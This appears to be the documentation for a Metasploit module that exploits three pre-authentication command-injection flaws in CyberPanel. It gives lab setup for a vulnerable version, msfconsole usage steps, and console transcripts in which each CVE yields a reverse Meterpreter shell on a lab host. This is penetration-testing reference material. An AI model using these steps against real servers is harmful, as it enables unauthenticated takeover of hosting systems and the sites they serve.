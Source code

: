 ## Vulnerable Application

CyberPanel is an open-source web hosting control panel based on OpenLiteSpeed.
This module exploits two pre-authenticated remote command execution (RCE) vulnerabilities found in certain versions of CyberPanel.

- **CVE-2024-51378**: The `getresetstatus` endpoint in `dns/views.py` and
`ftp/views.py` in CyberPanel before commit `1c0c6cb` allows remote attackers to
bypass authentication and execute arbitrary commands via `/dns/getresetstatus` or
`/ftp/getresetstatus` by bypassing `secMiddleware`(which applies only to POST
requests) and using shell metacharacters in the `statusfile` property.
This vulnerability has been exploited in the wild as of October 2024 by PSAUX, affecting versions through 2.3.6 and the unpatched 2.3.7.

- **CVE-2024-51567**: The `upgrademysqlstatus` endpoint in `databases/views.py` in
CyberPanel before commit `5b08cd6` allows remote attackers to bypass authentication
and execute arbitrary commands via `/dataBases/upgrademysqlstatus`, also by
bypassing `secMiddleware` and using shell metacharacters in the `statusfile` property.
This vulnerability has similarly been exploited in the wild in October 2024
by PSAUX, impacting versions through 2.3.6 and the unpatched 2.3.7.

- **CVE-2024-51568**: CyberPanel before 2.3.5 allows command
injection via completePath in the ProcessUtilities.outputExecutioner() sink.
This vulnerability includes unauthenticated remote code execution via shell
metacharacters in the /filemanager/upload (aka File Manager upload) endpoint,
exploiting shell metacharacters for arbitrary command execution.

These vulnerabilities allow attackers to execute commands on the server without needing authentication.

### Installation Instructions

To set up a vulnerable instance of CyberPanel for testing, follow these
instructions on an Ubuntu 18.04 server (or later).
The example below demonstrates installation on Ubuntu 18.04, though newer versions of Ubuntu should work as well.

1. First, install necessary dependencies and disable IPv6 to avoid potential network issues:

```bash
sudo su -
apt update && apt install -y curl wget
sysctl -w net.ipv6.conf.all.disable_ipv6=1
sysctl -w net.ipv6.conf.default.disable_ipv6=1
```

2. Then, download and run the CyberPanel installation script:

```bash
sh <(curl https://cyberpanel.net/install.sh || wget -O - https://cyberpanel.net/install.sh)
```

3. During installation, choose the following options:
   - Install CyberPanel: Select option `1`
   - Install CyberPanel with OpenLiteSpeed: Select option `1`
   - Skip full installation (choose `n`)
   - Skip Postfix, PowerDNS, and PureFTPd installations
   - Skip Remote MySQL setup
   - Install CyberPanel version `2.3.4` when prompted
   - Decline Memcached and Redis installations
   - Decline WatchDog setup for Web service and Database service

## Verification Steps

1. Install CyberPanel as outlined above.
2. Start `msfconsole`.
3. Use the module path: `use exploit/unix/webapp/cyberpanel_preauth_rce_multi_cve`.
4. Set the `RHOSTS` option to the target server’s IP.
5. Run the exploit with the desired CVE (choose either `cve-2024-51567`, `cve-2024-51568` or `cve-2024-51378`).
6. A successful exploitation should provide a shell on the target.

## Options

No option

## Scenarios

### Example: CVE-2024-51567 on CyberPanel 2.3.5 (Ubuntu 18.04)

To exploit `CVE-2024-51567` and achieve remote command execution:

```bash
msf exploit(unix/webapp/cyberpanel_preauth_rce_multi_cve) > set action CVE-2024-51567
action => CVE-2024-51567
msf exploit(unix/webapp/cyberpanel_preauth_rce_multi_cve) > run http://192.168.1.16:8090

[*] Started reverse TCP handler on 192.168.1.36:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Target is running CyberPanel and is vulnerable.
[*] Sending stage (3045380 bytes) to 192.168.1.16
[*] Meterpreter session 4 opened (192.168.1.36:4444 -> 192.168.1.16:35194) at 2024-11-21 22:26:12 +0100

meterpreter > sysinfo 
Computer     : 192.168.1.16
OS           : Ubuntu 18.04 (Linux 5.4.0-150-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```

### Example: CVE-2024-51378 on CyberPanel 2.3.5 (Ubuntu 18.04)

To exploit `CVE-2024-51378` and achieve remote command execution:

```bash
msf exploit(unix/webapp/cyberpanel_preauth_rce_multi_cve) > set action CVE-2024-51378
action => CVE-2024-51378
msf exploit(unix/webapp/cyberpanel_preauth_rce_multi_cve) > run http://192.168.1.16:8090

[*] Started reverse TCP handler on 192.168.1.36:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Target is running CyberPanel and is vulnerable.
[*] Sending stage (3045380 bytes) to 192.168.1.16
[*] Meterpreter session 5 opened (192.168.1.36:4444 -> 192.168.1.16:39820) at 2024-11-21 22:27:06 +0100

meterpreter > sysinfo 
Computer     : 192.168.1.16
OS           : Ubuntu 18.04 (Linux 5.4.0-150-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```

### Example: CVE-2024-51568 on CyberPanel 2.3.4 (Ubuntu 18.04)

```bash
msf exploit(unix/webapp/cyberpanel_preauth_rce_multi_cve) > set action CVE-2024-51568
action => CVE-2024-51568
msf exploit(unix/webapp/cyberpanel_preauth_rce_multi_cve) > run http://192.168.1.16:8090

[*] Started reverse TCP handler on 192.168.1.36:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] CSRF Token retrieved: CtCqolh8EQHkik3J8sjbUxPemD9PN8j2cZ7QBIxtUN3zmHQ1sbSnXOCBVWr00kI7
[*] CSRF Token retrieved: ExmQR7HciOpdsPRrh43NNjGNYaLbRb6pKnap4Z5onPfVGjPqCNFyehTAqIpBrSuB
[+] The target is vulnerable. Target is running CyberPanel and is vulnerable.
[*] CSRF Token retrieved: NMATUvqAxFW2bU5bnhvFf860BfFrj8DGMqtSXS81RbmxjifXo9sJCe1KM7933cIY
[*] Sending stage (3045380 bytes) to 192.168.1.16
[*] Meterpreter session 7 opened (192.168.1.36:4444 -> 192.168.1.16:46212) at 2024-11-21 22:37:00 +0100

meterpreter > sysinfo 
Computer     : 192.168.1.16
OS           : Ubuntu 18.04 (Linux 5.4.0-150-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```
